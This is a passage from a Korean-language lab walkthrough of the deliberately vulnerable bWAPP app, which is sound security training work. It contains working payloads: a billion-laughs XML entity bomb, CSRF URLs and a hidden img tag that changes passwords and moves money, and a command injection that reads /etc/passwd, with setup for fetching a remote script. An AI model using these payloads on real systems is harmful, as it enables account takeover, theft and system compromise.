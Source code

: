      <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
     <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
     <!ENTITY bee "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
     ]>
     <reset><login>&bee;</login><secret>Any bugs?</secret></reset>
     ```

## [A10] Unvalidated Redirects & Forwards (1)
  1. Burp Suite로 캡쳐해 보면 아래와 같이 리다이렉트되는 URL 주소가 GET 방식으로 넘어감을 알 수 있다.
     ```http
     GET /bWAPP/unvalidated_redir_fwd_1.php?url=http%3A%2F%2Fitsecgames.blogspot.com&form=submit HTTP/1.1
     ```
  1. 따라서 Burp Suite에서 위 `url` 정보를 다른 웹사이트 주소로 변경하면 해당 주소로 리다이렉트된다.

## [A8] CSRF (Change Password)
  1. Burp Suite에서 intercept를 켜 놓은 후, bWAPP에서 현재 암호를 입력한 후, `Change` 버튼을 누른다. 결과로 아래 예와 같이 캡쳐된다 (예로 암호를 **test**로 입력).
     ```http
     GET /bWAPP/csrf_1.php?password_new=test&password_conf=test&action=change HTTP/1.1
     ```
  1. 즉, 기존 암호 검증이 없는 취약점을 노릴 수 있다. Burp Suite에서 마우스 우클릭하여 `Copy URL`을 누르면 현재 URL 정보가 아래 예와 같이 클립보드에 복사된다.
     ```http
     http://192.168.0.106/bWAPP/csrf_1.php?password_new=test&password_conf=test&action=change
     ```
     이제 현재 사용자는 로그 아웃한다.
  1. 웹브라우저에 위 URL 정보를 복사하고 암호를 원하는 내용으로 변경하여 접속해 보면, 기존 암호 검증 단계가 없으므로 무조건 새로운 암호로 변경할 수 있다.
  1. 목적은 위의 비밀 번호 변경 취약점을 이용하여 사용자가 블로그를 보면, 사용자의 비밀 번호를 변경하는 것이다. `[A1] SQL Injection - Stored (Blog)` 페이지로 이동한다.
  1. 블로그에 아래 내용을 입력하여 (예로 암호는 **test**로 입력) 글을 올린다.
     ```html
     Your password is changed<img src="http://192.168.0.106/bWAPP/csrf_1.php?password_new=test&password_conf=test&action=change" height=0 width=0>
     ```
  1. 이제 암호가 변경되었음을 확인할 수 있다. 추가 테스트로 "A.I.M." 사용자로 로그인 한 후 (최초 암호는 "bug" 임), `[A1] SQL Injection - Stored (Blog)` 페이지로 이동한 후 로그 아웃 후, 다시 로그인 해보면 "A.I.M." 사용자의 암호도 변경되었음을 확인할 수 있다.

## [A8] CSRF (Transfer Amount)
  1. 테스트해보면 GET 방식으로 보내서, URI 정보가 아래 예와 같이 같음을 확인할 수 있다. (**100** EUR 송금 예)
     ```http
     http://192.168.0.106/bWAPP/csrf_2.php?account=123-45678-90&amount=100&action=transfer
     ```
  1. 위 주소로 다시 refresh 시켜보면 취약점으로 인해 계속 송금이 되고 계좌에서 돈이 빠져 나간다.
  1. Security level을 high로 바꾼 후에, 동일하게 테스트해 보면 `token` 값이 random하게 바뀌어서 refresh 시켜도 송금이 되지 않은 것을 확인할 수 있다.
  1. 계좌에 다시 돈을 채워 넣으려면 송금액을 음수로 하면 된다.

## [A1] OS Command Injection
  1. 소스 코드가 입력 서버 주소를 `shell_exec` 함수를 이용하여 `nslookup` 명령의 파라미터로 실행시키는 구조이므로, 아래 예와 같이 입력하면 `;` 뒤의 명령어도 실행되어 결과를 보여준다.
     ```sh
     google.co.kr; cat /etc/passwd
     ```
  1. 모든 OS 명령어가 사용 가능하므로, 아래 예와 같이 악성 코드를 다운받아서 실행시킬 수도 있다.
     테스트로 아래와 같은 내용으로 `hack.sh` 파일을 작성하여, `<your_host>/<your_path>/` 경로에 올려 놓는다.
     ```sh
     echo "Your system is hacked" > /tmp/hack.log
     ```
     이제 아래 내용을 DNS lookup 해본다.
     ```sh